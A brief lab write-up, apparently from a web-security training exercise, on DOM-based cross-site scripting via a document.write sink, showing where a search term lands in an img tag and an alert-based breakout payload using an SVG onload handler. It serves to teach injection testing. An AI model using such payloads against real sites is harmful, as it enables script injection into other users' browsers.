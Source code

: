 # XSS Lab 2: DOM XSS in document.write Sink

## Analysis
The string inputed in the search bar was found in the following snippet from Inspecting:
```
<img src="/resources/images/tracker.gif?searchTerms=myTestWords">
```

XSS that might break out and load a script:
```
"><svg onload=alert(1)>
```